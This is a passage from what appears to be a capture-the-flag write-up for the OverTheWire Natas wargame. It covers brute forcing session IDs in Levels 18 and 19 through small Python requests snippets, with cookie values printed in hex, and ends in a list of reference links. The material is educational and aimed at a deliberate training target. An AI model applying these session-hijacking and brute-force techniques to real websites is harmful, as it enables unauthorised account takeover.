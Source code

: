 ```python
 PAYLOAD = ({'debug': '1', 'username': 'user', 'password': 'pass'})
 MAXID = 640

 brute_force_password(AUTH, URL, PAYLOAD, MAXID)
```

After a few minutes, we get our password.



















### Level 19: Hijacking Session ID II



This level looks exactly like the previous except that it has the following message:

> This page uses mostly the same code as the previous level, but session IDs are no longer sequential ...

![cyber](http://i.imgur.com/OQ7LATt.png)


This time we have no access to the source code to see how the session IDs are created. However, we have access to the values in the cookie which are created by the session.

We write the following snippet:

```python
HEADER ={'Cookie':'PHPSESSID=' + str(i)}
r = requests.post(URL, auth=AUTH, params=PAYLOAD, headers=HEADER)
print(i)
print(HEADER[1])
```

This produces the following output:

```
0
{'PHPSESSID': '3236312d75736572'}
1
{'PHPSESSID': '3136372d75736572'}
2
{'PHPSESSID': '3534342d75736572'}
3
{'PHPSESSID': '3238352d75736572'}
4
{'PHPSESSID': '3334332d75736572'}
(...)
```


[Wargames]: http://overthewire.org/wargames/
[Natas]: http://overthewire.org/wargames/natas/
[robots.txt]: http://en.wikipedia.org/wiki/Robots_exclusion_standard
[referer]: http://en.wikipedia.org/wiki/HTTP_referer
[tampermonkey]: https://chrome.google.com/webstore/detail/tampermonkey/dhdgffkkebhmkfjojejmpbldmpobfkfo?hl=en
[modify-headers]: https://chrome.google.com/webstore/detail/modify-headers-for-google/innpjfdalfhpcoinfnehdnbkglpmogdi?hl=en-US
[edit this cookie]: http://www.editthiscookie.com/start/
[strrev]: http://php.net/manual/en/function.strrev.php
[passthru]: http://php.net/manual/en/function.passthru.php
[OS command injection]: https://www.owasp.org/index.php/OS_Command_Injection
[preg_match]: http://php.net/manual/en/function.preg-match.php
[readfile()]: http://php.net/manual/en/function.readfile.php
[system]: http://php.net/manual/en/function.system.php
[Burp Suite]: http://portswigger.net/burp/
[FireBug]: http://getfirebug.com/
[this is how you run it]: http://portswigger.net/burp/help/suite_gettingstarted.html
[SQL Injection]: https://www.owasp.org/index.php/SQL_Injection
[SQL wildcards and keywords]: http://www.w3schools.com/sql/sql_wildcards.asp
[SUBSTRING]: http://www.1keydata.com/sql/sql-substring.html
[request]: http://docs.python-requests.org/en/latest/user/quickstart/
[command substitution]: http://www.tldp.org/LDP/abs/html/commandsub.html
[sleep()]: http://dev.mysql.com/doc/refman/5.0/en/miscellaneous-functions.html#function_sleep
[is_numeric]: http://php.net/manual/en/function.is-numeric.php
[SESSION_ID]: http://en.wikipedia.org/wiki/Session_ID
[$_REQUEST]: http://php.net/manual/en/reserved.variables.request.php
[session_starts()]: http://php.net/manual/en/function.session-start.php
[source code is available]: https://github.com/mvonsteinkirch/CTFs-Gray-Hacker-and-PenTesting/tree/master/Web_Exploits